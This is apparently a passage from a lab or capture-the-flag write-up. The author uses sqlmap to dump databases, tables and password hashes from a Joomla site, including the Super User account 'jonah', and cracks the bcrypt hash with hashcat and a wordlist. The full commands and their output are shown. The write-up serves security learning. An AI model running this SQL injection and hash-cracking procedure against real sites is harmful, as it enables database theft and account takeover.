 Next, I used sqlmap to enumerate the tables for any interesting information as well as to find any users and passwords.

```
sqlmap -r request.txt --users --passwords --tables --random-agent
```

This quickly returned a massive amount of information, including:
Databases:
- joomla
- mysql
- information_schema

SQLMap also returned a password hash from the mysql database. I thought this may be an alternative way in, and used haiti to confirm the hash type:
```
haiti *B04E65424026AC47B5626445B67352EBEFD78828
MySQL5.x [HC: 300] [JtR: mysql-sha1]
MySQL4.1 [HC: 300] [JtR: mysql-sha1]
```

I ran hashcat with rockyou.txt and it was quickly exhausted. I then tried with my custom wordlist, which is quite a bit larger, and still, no password was found. It seemed that this was a rabbit hole, so I went back to sqlmap to enumerate the joomla database.

The joomla database contains a table called
`#__users`  which I was specifically interested in. The columns had to be enumerated, so I trimmed down the columns wordlist to just about 20 words relating to username, password, pass, etc. 

This returned a usser entry and hash. 


```
Database: joomla
Table: #__users
[1 entry]
+-----+------------+--------------------------------------------------------------+----------+
| id  | name       | password                                                     | username |
+-----+------------+--------------------------------------------------------------+----------+
| 811 | Super User | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+------------+--------------------------------------------------------------+----------+

```

The hash is encrypted with blowfish: 
```
bcrypt $2*$, Blowfish (Unix)

hashcat --help | grep Blowfish
   3200 | bcrypt $2*$, Blowfish (Unix)                        | Operating System
  18600 | Open Document Format (ODF) 1.1 (SHA-1, Blowfish)    | Document

hashcat -m 3200 -a 0 blowfish.txt wordlist.txt
```

Unfortunately, blowfish/bcrypt takes quite a while to bruteforce, even with hashcat. Just as I was going to separate the wordlist and look for clues to target the attack, hashcat cracked the password. 

---